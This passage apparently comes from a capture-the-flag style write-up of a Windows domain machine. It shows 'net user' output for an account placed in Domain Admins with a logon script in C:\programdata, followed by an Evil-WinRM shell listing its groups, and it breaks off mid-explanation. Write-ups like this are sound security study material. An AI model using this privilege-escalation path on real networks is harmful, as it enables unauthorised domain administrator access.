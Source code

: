     Password last set            10/21/2021 8:16:32 PM
    Password expires             Never
    Password changeable          10/22/2021 8:16:32 PM
    Password required            Yes
    User may change password     Yes

    Workstations allowed         All
    Logon script                 C:\\programdata\\cmd.ps1
    User profile
    Home directory
    Last logon                   2/28/2022 3:51:46 AM

    Logon hours allowed          All

    Local Group Memberships      *Remote Management Use
    Global Group memberships     *Domain Admins        *Domain Users
    The command completed successfully.



### WinRM with Domain Admin

The group will not be in my current session:



    *Evil-WinRM* PS C:\programdata> whoami /groups

    GROUP INFORMATION
    -----------------

    Group Name                                  Type             SID          Attributes
    =========================================== ================ ============ ==================================================
    Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
    BUILTIN\Remote Management Users             Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
    BUILTIN\Users                               Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
    BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\NETWORK                        Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\This Organization              Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
    Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448



But if I exit and reconnect, it will be:


